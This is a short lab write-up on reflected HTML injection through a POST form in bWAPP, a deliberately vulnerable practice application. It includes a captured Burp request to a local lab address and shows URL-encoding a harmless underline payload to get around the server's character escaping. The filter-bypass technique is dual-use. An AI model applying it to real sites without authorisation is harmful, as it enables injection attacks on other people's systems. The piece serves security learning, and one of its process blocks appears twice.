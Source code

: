 #  HTML Injection - Reflected (POST) (MEDIUM)


#### **Process:**
```plaintext 
-----------------------------------------
1. At first check the input boxes that how its 
reflect 

2. If its reflecting and also giving an url endpoint its probably a reflected GET Html injection vulnerability

3. If its not reflecting the url endpoint then its sure that we have to use 
burp proxy for the endpoints

```
#### **Payload: 1**
```html
<u>Hello</u>

```

#### **Burp Proxy**  

```plaintext

POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.56.101
Connection: keep-alive
Referer: http://192.168.56.101/bWAPP/htmli_post.php
Cookie: PHPSESSID=072b29678df3bc882e8b672204474edc; security_level=0
Upgrade-Insecure-Requests: 1
Priority: u=1

firstname=<u>hello</u>&lastname=world&form=submit
```
#### **Process:**
```plaintext 
-----------------------------------------
4. For the Payload:1 is giving us &lt;u&gt;hello&lt;/u&gt; in return 

5. It means the backend is validating <,>and/ 
6. So here we will use the URL encoder to bypass thae validation

```


#### **Process:**
```plaintext 
-----------------------------------------
4. For the Payload:1 is giving us &lt;u&gt;hello&lt;/u&gt; in return 

5. It means the backend is validating <,>and/ 
6. So here we will use the URL encoder to bypass thae validation

```
#### Encoded

![alt text](image-1.png)

#### **Payload: 2**
```plaintext
%3c%75%3e%68%65%6c%6c%6f%3c%2f%75%3e
```

![alt text](image-2.png)
